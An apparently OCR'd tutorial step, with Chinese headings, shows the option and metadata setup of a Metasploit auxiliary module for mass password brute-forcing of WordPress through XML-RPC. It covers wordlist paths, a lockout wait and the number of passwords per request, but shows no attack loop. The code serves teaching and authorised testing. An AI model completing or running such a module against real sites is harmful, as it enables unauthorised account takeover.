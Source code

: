 +   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   设置目标 URI、端口、用户、密码列表的选项。

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end
end 
```
